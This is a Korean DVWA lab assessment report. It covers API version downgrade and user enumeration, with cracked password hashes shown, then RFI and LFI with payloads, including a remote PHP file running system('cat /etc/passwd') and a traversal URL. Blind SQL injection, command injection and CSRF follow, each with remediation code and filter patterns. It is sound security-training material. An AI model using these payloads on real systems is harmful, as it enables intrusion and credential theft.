- DVWA의 API Security 페이지로, 테이블 생성 시 사용한 API 호출을 찾아 추가 정보를 반환할 수 있는지 확인하는 실습 환경입니다.



---

### Network 탭에서 API 엔드포인트 발견



- 브라우저 개발자 도구(F12) → Network 탭을 열어 페이지 로드 시 발생하는 요청 목록을 확인했습니다.
- 목록 중 `/DVWA/vulnerabilities/api/v2/user/` 엔드포인트가 호출되고 있음을 확인했습니다.



- `/DVWA/vulnerabilities/api/v2/user/` 요청이 404 Not Found로 응답하는 것을 확인했습니다.
- v2 엔드포인트 패턴(`/api/v2/user/`)을 파악했으므로  
  구버전 `/api/v1/user/`도 존재할 수 있다고 추론하여 직접 접근을 시도했습니다.

---

### v1 API 접근 및 패스워드 해시 노출 확인

- 다음과 같은 URL을 입력합니다.  
```
 http://192.168.11.36/DVWA/vulnerabilities/api/v1/user/1
```



- URL을 `/api/v1/user/1`로 직접 수정하여 접근했습니다.
- v1 API는 `id`, `name`, `level` 외에 `password` 해시까지 응답에 포함하고 있었습니다.

---

### v1과 v2 응답 비교

- 다음과 같은 URL을 입력합니다.  
```
 http://192.168.11.36/DVWA/vulnerabilities/api/v2/user/1
```



- 확인한 결과 동일한 사용자(tony, id:1)에 대해 v2 API로 접근하자 `password` 필드가 응답에 포함되지 않았습니다.
- v1 API에서만 민감 정보가 과도하게 노출되는 구조임을 확인했습니다.

---

### 사용자 ID 열거— id:2 (morph)

- ID를 2로 변경하여 다음과 같은 URL을 입력합니다.  
```
 http://192.168.11.36/DVWA/vulnerabilities/api/v1/user/2
```



- `/v1/user/2`에 접근하자 사용자 morph의 정보와 패스워드 해시가 반환되었습니다.

---

### 사용자 ID 열거 — id:3 (chas)

- ID를 3로 변경하여 다음과 같은 URL을 입력합니다.  
```
 http://192.168.11.36/DVWA/vulnerabilities/api/v1/user/3
```



- `/v1/user/3`에 접근하자 사용자 chas의 정보와 패스워드 해시가 반환되었습니다.
- `/v1/user/4`는 404로 응답하여 총 사용자가 3명임을 확인했습니다.

---

### 획득한 해시 크랙

- 수집한 3개의 SHA-256 해시를 CrackStation에 입력하여 크랙을 시도했습니다.



| 사용자 | 해시 (SHA-256) | 크랙 결과 |
|--------|----------------|-----------|
| tony (id:1) | 1c8bfe8f...b63032 | letmein |
| morph (id:2) | e5326ba4...f90a8 | TonyHart |
| chas (id:3) | a09237fc...c21de | Hartbeat |

- 3개의 해시가 모두 크랙되어 각 사용자의 실제 패스워드가 확인되었습니다.
- SHA-256은 연산 속도가 빠르기 때문에 레인보우 테이블 기반 크랙 도구에 취약합니다.

---

## 취약점 분석

- 소스코드의 JavaScript를 보면 페이지가 로드될 때  
  `get_users()` 함수가 실행되며, API 엔드포인트 URL이 소스코드에 그대로 노출됩니다.

```javascript
  function get_users() {
      const url = '" . $stripped_url . "/vulnerabilities/api/v2/user/';
      // API 엔드포인트 경로가 클라이언트 소스코드에 노출 — 공격자가 URL 패턴을 파악 가능
```

- `loadTableData` 함수는 API 응답에 `password` 키가 포함되면 성공 메시지를 출력합니다.

```javascript
  Object.keys(item).forEach(function(k){
      if (k == 'password') {
          successDiv = document.getElementById('message');
          successDiv.style.display = 'block';
          // 응답에 password 필드가 존재할 경우를 가정하고 처리 — v1 API에서 password가 반환됨을 암시
      }
  });
```

- v2 엔드포인트 패턴(`/api/v2/user/`)이 소스코드에서 노출되므로, 공격자는 v1으로 버전을 낮춰 접근을 시도할 수 있습니다.
- v1 API는 인증 없이 임의 ID를 조회할 수 있고, 응답에 `password` 해시를 포함합니다.
- 페이지에 등록된 성공 메시지 `'Well done, you found the password hashes.'`도 password 노출이 의도된 공격 경로임을 보여줍니다.

```php
  $request_url = $_SERVER['REQUEST_URI'];
  $stripped_url = str_replace("/vulnerabilities/api/", "", $request_url);
  // 현재 URL에서 경로를 가공해 API 베이스 URL을 생성 — 경로 패턴이 소스코드에 그대로 삽입됨
```

**판단 : 취약** — 소스코드에 노출된 엔드포인트 패턴과 구버전 API 미폐기, 과도한 데이터 노출이 결합되어 전체 사용자의 패스워드 해시가 수집되고 크랙까지 이어집니다.

---

## 대응 방안

### 구버전 API 폐기 또는 접근 차단

- 사용하지 않는 구버전 API 엔드포인트는 완전히 제거하거나 라우팅 수준에서 차단합니다.

```apache
  RewriteEngine On
  RewriteRule ^v1/.*$ - [F,L]
  # v1 하위 모든 경로 요청에 403 Forbidden 반환 — 구버전 엔드포인트 자체를 차단
```

#### 핵심 효과

- 구버전 API로의 접근 자체를 막아 버전 다운그레이드 공격이 불가능합니다.

---

### 객체 수준 접근 제어 적용 (BOLA 방지)

- API 요청 시 로그인된 사용자 본인의 데이터만 조회할 수 있도록 권한 검증을 추가합니다.

```php
  $requestedId = $_GET['id'];
  $sessionUserId = $_SESSION['user_id'];
  // 세션에서 현재 로그인한 사용자 ID를 가져옴
  
  if ($requestedId != $sessionUserId) {
      http_response_code(403);
      // 요청 ID와 세션 사용자 ID가 다르면 403 반환 — 타 사용자 데이터 조회 차단
      echo json_encode(['error' => 'Access denied']);
      exit;
  }
```

#### 핵심 효과

- ID를 1, 2, 3으로 바꿔도 자신의 데이터 외에는 조회할 수 없습니다.

---

### 응답 데이터 최소화 (Excessive Data Exposure 방지)

- API 응답에서 클라이언트에 불필요한 민감 정보를 제거합니다.

```php
  $response = [
      'id'    => $row['id'],
      'name'  => $row['name'],
      'level' => $row['level']
      // password 필드 제거 — 클라이언트가 패스워드 해시를 받을 이유가 없음
  ];
  echo json_encode($response);
```

#### 핵심 효과

- 해시가 노출되지 않아 크랙 공격으로 이어지지 않습니다.

---

### 패스워드 해시 알고리즘 강화

- SHA-256은 연산 속도가 빨라 크랙에 취약합니다. bcrypt 등 느린 해시 알고리즘을 적용합니다.

```php
  $hashedPassword = password_hash($plainPassword, PASSWORD_BCRYPT, ['cost' => 12]);
  // bcrypt cost 12 적용 — SHA-256 대비 연산 속도를 극단적으로 낮춰 무차별 대입 속도 저하
  
  if (password_verify($input, $hashedPassword)) {
      // password_verify()로 검증 — 타이밍 공격 방지 및 해시 비교로 원문 노출 차단
      $success = true;
  }
```

#### 핵심 효과

- 해시가 유출되더라도 크랙에 필요한 시간이 수십~수백 배 이상 증가합니다.

---

## 4.6. File Inclusion (LFI/RFI)

| 항목 | 내용 |
|---|---|
| 취약 코드 | FI (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/fi/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - File Inclusion 관련 항목 |

### 취약점 개요

**점검 내용**

- 사용자 입력값이 검증 없이 include(), require() 등 파일 포함 함수에 전달되어  
  내부 파일 접근 또는 외부 파일 실행이 가능한지 여부를 점검합니다.
- 외부 입력값이 코드 또는 파일 경로로 해석되어 비인가된 접근 및 코드 실행이 가능한지 점검합니다.

**점검 목적**

- 사용자 입력값을 통한 비인가 파일 접근을 방지합니다.
- 서버 내부 중요 파일의 노출과 정보 유출을 방지합니다.
- 외부 파일 포함을 통한 악성 코드 실행을 방지합니다.

---

- 본 실습에서는 DVWA의 Low 단계에서 File Inclusion 취약점을 대상으로  
  사용자 입력값이 검증 없이 파일 경로로 사용될 때 내부 파일 접근 및 외부 파일 실행이 가능한지 확인하여  
  LFI/RFI 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의  
  File Inclusion 관련 항목과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값을 검증하지 않을 경우 상위 디렉토리 접근이 가능합니다.
- `/etc/passwd`, `/etc/shadow` 등 중요 시스템 파일 노출이 가능합니다.
- 외부 파일 포함이 가능한 경우 공격자가 악성 코드를 실행할 수 있습니다.
- LFI는 정보 유출로 이어질 수 있고, RFI는 원격 코드 실행으로 확장될 수 있습니다.
- 서버 권한 탈취 및 웹쉘 실행이 가능합니다.

---

## 판단 기준

### 양호

- include 대상 파일이 고정되어 있습니다.
- 사용자 입력값에 대한 화이트리스트 검증을 수행합니다.
- 경로 정규화(realpath 등)를 통한 디렉토리 탈출을 차단합니다.
- 외부 URL 포함이 비활성화됩니다. (allow_url_include Off)

### 취약

- 사용자 입력값이 그대로 include 경로로 사용됩니다.
- `../` 경로 조작(Path Traversal)이 가능합니다.
- 외부 URL 포함이 가능합니다. (allow_url_include On)
- 임의 파일 접근 및 코드 실행이 가능합니다.

---

## 점검 절차

1. 파일 포함 기능이 존재하는지 확인합니다.
2. 정상 요청이 어떻게 동작하는지 확인합니다.
3. RFI(Remote File Inclusion) 가능 여부를 확인합니다.
4. LFI(Local File Inclusion) 가능 여부를 확인합니다.
5. 결과 출력 및 정보 노출 여부를 확인합니다.

---

## 취약점 검증 및 공격 수행

### 정상 동작 확인

- DVWA File Inclusion 페이지에서 기본 요청이 정상적으로 동작하는지 확인했습니다.
- 다음 화면은 DVWA의 File Inclusion 실습 초기화면입니다.


- `File1.php, File2.php, File3.php` 파일을 클릭하여 확인합니다.

#### File1.php 화면


#### File2.php 화면


#### File3.php 화면


- 모든 내부 페이지가 정상적으로 출력됩니다.
- page 파라미터 값이 파일 경로로 그대로 전달되어 서버 측에서 include()로 처리되고 있습니다.

---

## RFI (Remote File Inclusion)

- RFI는 외부 서버의 파일을 포함시키는 방식의 취약점입니다.
- PHP 환경에서 allow_url_include 가 활성화된 경우 주로 발생합니다.

---

### RFI Test 파일 생성

- `/var/www/html/bad.php` 파일 경로로 원격 파일 포함 가능 여부를 확인하기 위해  
  외부 서버에 테스트용 PHP 파일을 생성했습니다.

```php
<?php
  print "RFI Success!!";
?>
```


---

### RFI 공격 수행

- page 파라미터에 다음 외부 URL을 입력하여 원격 파일 포함이 가능한지 확인합니다.

```
?page=http://127.0.0.1/bad.php
```


- 화면에 RFI Success!! 문자열이 출력되는 것을 확인했습니다.
- 외부 서버의 파일이 포함되어 실행된 것입니다.

---

### RFI 파일 시스템 명령어 추가 및 실행 확인

- bad.php 외부 파일에 시스템 명령어를 추가합니다.

```php
<?php
  print "RFI Success!!";
  system('cat /etc/passwd');
?>
```


- 외부 파일 실행과 함께 /etc/passwd 내용이 출력되는 것을 확인했습니다.
- 단순 파일 포함에 그치지 않고 원격 코드 실행이 가능한 상태입니다.

---

## LFI (Local File Inclusion)

- LFI는 서버 내부 파일을 포함시키는 방식의 취약점입니다.
- 주로 `../` 와 같은 디렉토리 트래버설을 이용해 내부 파일에 접근합니다.


- `../`를 입력하면 상위 디렉터리로 이동합니다.
- `../`를 충분히 입력하면 최상위 디렉터리에 접근합니다.

---

### LFI 공격 수행

- 로컬 파일 포함 가능 여부를 확인하기 위해 디렉토리 트래버설 문자열을 사용했습니다.

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```


- 해당 URL로 접속한 결과, 서버 내부의 /etc/passwd 파일 내용이 출력되는 것을 확인했습니다.
- 상위 디렉토리 접근이 가능하며, 로컬 파일 포함(LFI) 취약점이 존재합니다.

---

## LFI / RFI 구분

### LFI (Local File Inclusion)

- 서버 내부 파일을 포함시키는 취약점입니다.
- `../` 경로 조작을 통해 내부 파일 접근이 가능합니다.

#### 특징

- 내부 파일 조회 가능
- 민감 정보 유출 가능
- Log Poisoning과 결합 시 RCE 가능

---

### RFI (Remote File Inclusion)

- 외부 서버 파일을 포함시키는 취약점입니다.
- `allow_url_include` 설정이 활성화된 경우 발생합니다.

#### 특징

- 외부 파일 실행 가능
- 공격자 코드 실행 가능
- 즉시 RCE 가능

---

## 취약점 분석

- 해당 시스템은 사용자 입력값을 파일 경로에 직접 사용하고 있었습니다.
- 입력값 검증이 전혀 이루어지지 않아 임의 파일 접근이 가능했습니다.
- 소스코드를 보면 `$_GET['page']`로 입력값을 받아 검증 없이 그대로 파일 경로로 사용합니다.

```php
$file = $_GET[ 'page' ]; // 입력값 검증 없이 그대로 수신 — 이 값이 include()에 직접 전달되어 LFI/RFI 취약점 발생
```

- 디렉토리 트래버설(`../`)을 통해 `/etc/passwd` 파일이 출력되는 것을 확인했습니다.  
  → LFI 취약점 존재

- 외부 URL 입력 시 공격자 서버의 PHP 파일이 실행되는 것을 확인했습니다.   
  → RFI 취약점 존재

- 외부 파일 내에서 시스템 명령어(`system()`) 실행 결과가 출력되었습니다.    
  → 원격 코드 실행(RCE) 가능 상태

**판단 : 취약** — 실제 환경이었다면 내부 파일 유출, 원격 코드 실행, 서버 장악으로 이어질 수 있습니다.

---

## 대응 방안

- File Inclusion 취약점은 사용자 입력값이 검증 없이 파일 경로에 직접 사용되는 구조에서 발생합니다.  
- 입력값을 신뢰하지 않고, 경로 자체를 통제하는 방식으로 대응해야 합니다.

---

### 화이트리스트 방식 적용

- 미리 정의된 파일 목록만 접근 가능하도록 제한합니다.
- 사용자 입력값은 파일명이 아닌 식별자 형태로 처리합니다.
- 임의 경로 입력이 불가능하도록 구성합니다.

```php
$allowed = ['file1.php', 'file2.php', 'file3.php'];
$page = $_GET['page'];

// 입력값이 허용 목록에 없으면 즉시 처리 차단 — 임의 파일 경로 입력 불가
if (!in_array($page, $allowed)) {
    die("접근이 허용되지 않습니다.");
}

// 허용된 파일만 고정된 절대경로 기준으로 포함 — 경로 조작 원천 차단
include(__DIR__ . '/includes/' . $page);
```

#### 핵심 효과

- 허용 목록 외의 모든 파일 접근을 차단하여 LFI/RFI를 원천 방지합니다.

---

### 절대 경로 기반 include 사용

- 상대 경로(`../`)를 이용한 파일 호출을 사용하지 않습니다.
- 서버 내부에서 고정된 절대 경로를 기준으로 파일을 포함합니다.
- 사용자 입력값을 이용한 경로 조합을 제거합니다.

#### 핵심 효과

- 디렉토리 트래버설을 통한 상위 경로 접근을 차단합니다.

---

### 경로 검증 로직 적용

- `realpath()`를 활용하여 실제 경로를 확인합니다.
- 지정된 디렉토리 내부 파일인지 검증합니다.
- 경로 조작을 통한 디렉토리 탈출을 차단합니다.

```php
$base_dir = realpath(__DIR__ . '/includes/');
$page = $_GET['page'];
$requested = realpath($base_dir . '/' . $page);

// 실제 경로가 허용 디렉토리 내부인지 검증 — ../ 우회 시도 차단
if ($requested === false || strpos($requested, $base_dir) !== 0) {
    die("허용되지 않은 경로입니다.");
}

include($requested); // 검증 통과한 경로만 포함
```

#### 핵심 효과

- `../` 등 경로 조작 우회 시도를 서버에서 직접 차단합니다.

---

### PHP 설정 강화

- `allow_url_include` 옵션을 비활성화하여 외부 파일 포함을 차단합니다.
- 필요하지 않은 경우 `allow_url_fopen` 또한 비활성화합니다.

```ini
allow_url_include = Off   ; 외부 URL 파일 포함 차단 — RFI 원천 차단
allow_url_fopen = Off     ; 외부 URL을 통한 파일 읽기 차단
```

#### 핵심 효과

- 외부 서버의 악성 파일을 포함시키는 RFI 공격을 원천 차단합니다.

---

### 최소 권한 원칙 적용

- 웹 서버 실행 계정의 권한을 최소한으로 제한합니다.
- 중요 시스템 파일에 대한 접근 권한을 제거합니다.
- 민감한 설정 파일은 웹 루트 외부에 배치합니다.

#### 핵심 효과

- 취약점이 악용되더라도 접근 가능한 파일 범위를 최소화하여 피해를 제한합니다.

---

## 4.7. Blind SQL Injection

| 항목 | 내용 |
|---|---|
| 취약 코드 | BSI (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/sqli_blind/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - Blind SQL Injection 관련 항목 (p.693 ~ 699) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Blind%20SQL%20Injection/LOW_Blind%20SQL%20Injection.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Blind%20SQL%20Injection_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 사용자 입력값이 SQL Query에 직접 포함되어 비정상적인 Query문이 실행되는지 점검합니다.
- 입력값 조작을 통해 데이터베이스에 비인가 접근이 가능한지 확인합니다.
- 결과가 직접 출력되지 않는 환경에서도 응답 차이 또는 시간 지연을 통해 정보 추론이 가능한지 확인합니다.

**점검 목적**

- 입력값 조작을 통한 비정상적인 SQL문 실행을 방지합니다.
- 중요 정보 유출과 관리자 권한 탈취를 차단합니다.
- SQL Injection 공격으로 인한 데이터 조회, 수정, 삭제 가능성을 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.693 ~ 699)

- 본 실습에서는 DVWA의 Low 단계에서 Blind SQL Injection 취약점을 대상으로 응답 결과가  
  직접 출력되지 않는 상황에서 조건에 따른 응답 차이와 시간 지연을 확인하여 Blind SQL Injection 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의 SQL Injection 관련 항목(p.693~699)과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값이 SQL 쿼리에 그대로 삽입될 경우, 공격자가 의도하지 않은 SQL문을 실행할 수 있습니다.
- 이로 인해 데이터베이스에 비인가 접근이 가능해지고 데이터의 조회, 수정, 삭제와 같은 행위로 이어질 수 있습니다.
- Blind SQL Injection은 결과가 직접 출력되지 않아도 응답 차이 또는 응답 시간을 이용해 데이터를 추론할 수 있습니다.
- 실제 환경에서는 탐지가 어렵고 반복적인 요청을 통해 계정 정보, 테이블 구조, 비밀번호 해시 등이 노출될 수 있습니다.

---

## 판단 기준

### 양호

- 사용자 입력값 검증이 적용된 경우
- Prepared Statement를 사용한 경우
- SQL 오류 및 내부 정보가 외부에 노출되지 않는 경우
- 조건에 따른 응답 차이나 시간 지연이 발생하지 않는 경우
- DB 계정에 최소 권한만 부여된 경우

### 취약

- 사용자 입력값이 SQL문에 직접 연결되는 경우
- 참/거짓 조건에 따라 응답 결과가 달라지는 경우
- SLEEP 함수 등을 이용했을 때 응답 시간이 지연되는 경우
- sqlmap 등의 자동화 도구를 통해 DB 정보 추출이 가능한 경우
- 데이터베이스 구조 및 계정 정보 확인이 가능한 경우

---

## 점검 절차

1. SQL Injection Blind 실습 화면 확인
2. 정상 입력값 동작 확인
3. 참 조건과 거짓 조건 입력 후 응답 차이 확인
4. 시간 지연 구문을 이용한 Time-based Blind SQL Injection 확인
5. Burp Suite 또는 브라우저에서 요청 구조 확인
6. sqlmap을 이용한 취약점 자동 탐지
7. DB / Table / Column 정보 조회
8. 계정 및 Password Hash 추출 확인
9. Blind SQL Injection 취약점 존재 여부 판단

---

## 취약점 분석

- 소스코드를 보면 `$_GET['id']` 값을 별도의 검증이나 이스케이프 처리 없이 SQL Query 문자열에 직접 연결합니다.

```php
$id = $_GET[ 'id' ];                                                          // 입력값 검증 없이 그대로 수신
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";    // 입력값을 SQL Query에 직접 연결
```

- Prepared Statement나 입력값 검증이 전혀 적용되어 있지 않아,  
  `id` 파라미터에 SQL 구문을 삽입하면 원래 쿼리의 조건절이 임의로 변경되는 구조입니다.
- 조회 결과가 화면에 직접 노출되지 않더라도, 조건에 따라 응답 메시지나 응답 시간에 차이가 나도록 쿼리를 구성하면  
  참/거짓 또는 지연 여부만으로 데이터를 추론할 수 있습니다 — 이것이 Blind SQL Injection이 성립하는 일반적인 원리입니다.
- 이 구조에서는 sqlmap과 같은 자동화 도구를 사용해 Database·Table·Column 구조 확인부터 계정 정보(Password Hash 포함) 추출까지 자동화하는 것이 가능합니다.

**판단 : 취약** — 실제 환경이었다면 관리자 계정 탈취, 개인정보 유출, 데이터 변조 등으로 이어질 수 있습니다.

---

## 대응 방안

### Prepared Statement 사용

- 사용자 입력값을 SQL Query에 직접 연결하지 않고,  
  Prepared Statement를 사용하여 SQL문과 입력값을 분리합니다.

```php
$pdo = new PDO("mysql:host=localhost;dbname=dvwa", "user", "password");
// 입력값을 직접 삽입하지 않고 플레이스홀더(:id)로 자리를 분리
$stmt = $pdo->prepare("SELECT first_name, last_name FROM users WHERE user_id = :id");
// 입력값을 정수형으로 바인딩 — SQL 문법으로 해석되지 않아 SQL Injection 원천 차단
$stmt->bindParam(':id', $id, PDO::PARAM_INT);
$stmt->execute();
```

#### 핵심 효과

- 입력값이 SQL 문법으로 해석되지 않아 Boolean 기반 및 Time-based Blind SQL Injection을 원천 차단합니다.

---

### 입력값 검증 수행

- User ID처럼 숫자만 필요한 값은 숫자만 입력되도록 제한합니다.
- 길이, 형식, 허용 문자 등을 기준으로 입력값을 검증합니다.

```php
$id = $_GET['id'];
// 숫자가 아닌 입력값(특수문자, SQL 구문 등)은 즉시 처리 차단
if (!is_numeric($id)) {
    die("Invalid input.");
}
// 정수로 변환하여 소수점, 특수문자 등 추가 제거
$id = intval($id);
```

#### 핵심 효과

- 비정상적인 SQL 구문 삽입을 사전에 차단합니다.

---

### 특수문자 및 SQL 예약어 필터링

- 작은따옴표, 주석 문자, AND, OR, SLEEP, UNION 등 공격에 사용될 수 있는 입력을 제한합니다.
- 단순 차단만으로는 우회 가능성이 있으므로 Prepared Statement와 함께 적용합니다.

```php
$id = $_GET['id'];
// 작은따옴표, 주석, SLEEP 등 Blind SQL Injection에 사용되는 패턴 차단
if (preg_match('/[\'\";\-\-\#]|sleep|union|select|or|and/i', $id)) {
    die("허용되지 않는 문자가 포함되어 있습니다.");
}
```

#### 핵심 효과

- Boolean 기반 및 Time 기반 공격 시도를 줄입니다.

---

### 동일한 응답 처리

- 조건이 참일 때와 거짓일 때 응답 메시지가 과도하게 다르지 않도록 처리합니다.
- 존재 여부를 직접 알려주는 메시지는 최소화합니다.

#### 핵심 효과

- 공격자가 참/거짓 응답 차이를 이용해 데이터를 추론하기 어려워집니다.

---

### 응답 시간 차이 최소화

- SQL 오류나 조건에 따라 응답 시간이 비정상적으로 달라지지 않도록 처리합니다.
- SLEEP 함수 등 시간 지연 공격 패턴을 탐지하고 차단합니다.

#### 핵심 효과

- Time-based Blind SQL Injection 공격을 어렵게 만듭니다.

---

### 에러 메시지 노출 차단

- SQL 오류 발생 시 DB 에러 메시지를 사용자에게 직접 출력하지 않도록 설정합니다.
- 에러는 서버 로그에만 기록하고 사용자에게는 일반적인 안내 메시지만 출력합니다.

```php
$result = mysqli_query($conn, $query);
if (!$result) {
    error_log("DB Error: " . mysqli_error($conn)); // 에러 내용은 서버 로그에만 기록 — 외부 노출 차단
    die("요청을 처리할 수 없습니다.");              // 사용자에게는 일반 메시지만 출력
}
```

#### 핵심 효과

- 공격자가 에러 메시지를 통해 Database 구조를 파악하기 어려워집니다.

---

### 최소 권한 원칙 적용

- 웹 애플리케이션에서 사용하는 DB 계정에는 필요한 최소 권한만 부여합니다.
- 조회만 필요한 기능에는 수정, 삭제, DROP 권한 등을 부여하지 않습니다.

#### 핵심 효과

- 침해가 발생하더라도 피해 범위를 최소화합니다.

---

### WAF 적용

- Blind SQL Injection에 사용되는 반복 요청, SLEEP 함수, 비정상적인 조건 구문을 탐지하도록 설정합니다.

#### 핵심 효과

- 자동화 공격 및 반복적인 데이터 추출 시도를 탐지하고 차단합니다.

</details>

---

## 4.8. Command Injection

| 항목 | 내용 |
|---|---|
| 취약 코드 | OC (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/exec/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - Command Injection 관련 항목 (p.679 ~ 692) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/Command%20Injection/LOW_Command%20Injection.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/Command%20Injection_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 시스템 명령어 실행 시 사용자 입력값 검증 여부를 점검합니다.

**점검 목적**

- 외부 입력값을 통한 비인가 시스템 명령어 실행을 방지합니다.
- 서버 내부 정보 유출 및 시스템 제어 권한 탈취를 차단합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
> 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 (p.679 ~ 692)

- 본 실습에서는 DVWA의 Low 단계에서 Command Injection 취약점을 대상으로
  사용자 입력값에 명령어 구분자를 삽입하여 서버에서 임의 시스템 명령어가 실행되는지 확인하고,
  입력값 검증 미흡으로 인한 시스템 명령어 실행 취약점 존재 여부를 점검했습니다.

- 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드의
  시스템 명령어 실행 관련 항목(p.679~692)과 연계하여 점검하였습니다.

---

**보안 위협**

- 사용자 입력값을 검증하지 않을 경우 시스템 명령어 실행이 가능합니다.
- 서버 내부 파일 정보(/etc/passwd 등) 유출이 가능합니다.
- 공격자가 서버 권한으로 임의 명령을 실행할 수 있습니다.
- 시스템 장악 및 추가 공격으로 확장될 수 있습니다.

---

## 판단 기준

### 양호

- 사용자 입력값 검증 및 명령어 실행 제한이 적용된 경우

### 취약

- 입력값 검증 없이 시스템 명령어 실행이 가능한 경우

---

## 점검 절차

1. 입력값을 받는 기능 존재 여부 확인
2. 정상 입력값 동작 확인 (ping 등)
3. 명령어 구분자를 이용한 추가 명령 실행 시도
4. 시스템 명령어 실행 여부 확인
5. 결과 출력 및 정보 노출 여부 확인

---

## 취약점 분석

- 소스코드를 보면 `$_REQUEST['ip']` 값을 검증 없이 `shell_exec()` 함수에 그대로 전달합니다.

```php
  $target = $_REQUEST[ 'ip' ];                         // 입력값 검증 없이 그대로 수신
  $cmd = shell_exec( 'ping  -c 4 ' . $target );        // 검증되지 않은 입력값을 명령어에 직접 연결
```

- 입력값에 대한 필터링이 전혀 없는 구조이기 때문에, `;`, `&`, `|` 같은  
  명령어 구분자를 삽입하면 원래 의도된 `ping` 명령 뒤에 임의의 시스템 명령이 이어 붙어 실행되는 구조입니다.
- `shell_exec()`는 전달받은 문자열을 셸에서 그대로 실행하므로, 이 구조에서는 `whoami`, `cat /etc/passwd`, `ls` 등  
  서버 내부 정보를 조회하는 명령까지 웹 서버 권한(`www-data`)으로 실행하는 것이 이론적으로 가능합니다.

**판단 : 취약** — 실제 환경이었다면 서버 내부 정보 유출 및 추가적인 시스템 침해로 이어질 수 있습니다.

---

## 대응 방안

### 입력값 검증 (Input Validation)

- 사용자 입력값에 대해 허용된 값만 입력받도록 제한합니다.
- IP 입력 시 숫자(0-9)와 점(.)만 허용하도록 필터링합니다.

```php
$ip = $_GET['ip'];
// IP 주소 형식(숫자와 점만 허용)이 아닌 입력값 즉시 차단
if (!preg_match('/^(\d{1,3}\.){3}\d{1,3}$/', $ip)) {
    die("유효하지 않은 입력값입니다.");
}
```

#### 핵심 효과

- 악의적인 명령어 삽입을 차단합니다.

---

### 특수문자 필터링

- `;`, `&`, `|`, `&&`, `||` 등의 명령어 구분자를 차단합니다.
- 위험 문자열 필터링을 적용합니다.

```php
$blacklist = [';', '&', '|', '`', '$', '(', ')', '{', '}'];
foreach ($blacklist as $char) {
    // 명령어 구분자 및 쉘 특수문자 포함 시 즉시 차단
    if (strpos($ip, $char) !== false) {
        die("허용되지 않는 문자가 포함되어 있습니다.");
    }
}
```

#### 핵심 효과

- 추가 명령 실행을 방지합니다.

---

### 안전한 명령어 실행 방식 적용

- 시스템 명령어 실행 시 사용자 입력값을 직접 연결하지 않습니다.
- `escapeshellarg()`를 사용하여 입력값을 안전하게 처리합니다.
- 입력값을 인자로 전달하는 방식으로 처리합니다.

```php
$ip = $_GET['ip'];
// 입력값을 쉘 인자로 안전하게 이스케이프 — 특수문자가 명령어로 해석되지 않음
$safe_ip = escapeshellarg($ip);
// 이스케이프된 값을 명령어에 연결 — 추가 명령 삽입 불가
exec("ping -c 1 " . $safe_ip, $output);
```

#### 핵심 효과

- Command Injection을 원천 차단합니다.

---

### 권한 최소화 (Least Privilege)

- 웹 서버 실행 계정 권한을 최소화합니다.
- 중요 파일 접근을 제한합니다.

#### 핵심 효과

- 침해 발생 시 피해를 최소화합니다.

---

### 웹 방화벽 적용

- 명령어 패턴을 탐지하고 차단합니다.
- 특수문자 필터링 룰을 적용합니다.

#### 핵심 효과

- 공격 시도를 사전에 차단합니다.

</details>

---

## 4.9. CSRF

| 항목 | 내용 |
|---|---|
| 취약 코드 | CF (상) |
| 취약 등급 | 취약 |
| 취약 경로 | http://192.168.11.36/DVWA/vulnerabilities/csrf/ |
| 적용 기준 | 주요정보통신기반시설 기술적 취약점 분석·평가 방법 상세가이드 - CSRF 관련 항목 (p.715 ~ 718) |
| 상세 실습 기록 | [GitHub 바로가기](https://github.com/JUNHYUK6042/DVWA/blob/main/CSRF/LOW_CSRF.md) |
| 취약 소스코드 | [취약 소스코드 바로가기](/DVWA%20보고서/Source/CSRF_Source.php) |

<details>
<summary>🔽 상세 점검 과정 펼쳐보기 (판단기준 · 취약점 분석 · 대응방안)</summary>

### 취약점 개요

**점검 내용**

- 웹 애플리케이션 내 사용자 인증 세션을 악용한 비정상 요청 수행 가능 여부를 점검합니다.

**점검 목적**

- 인증된 사용자 권한을 악용한 비정상 요청 수행을 방지합니다.
- 비밀번호 변경, 송금, 개인정보 수정 등 중요 기능을 보호합니다.

> 출처: [https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload](https://www.kisa.or.kr/2060204/form?postSeq=22&page=1#fnPostAttachDownload)  
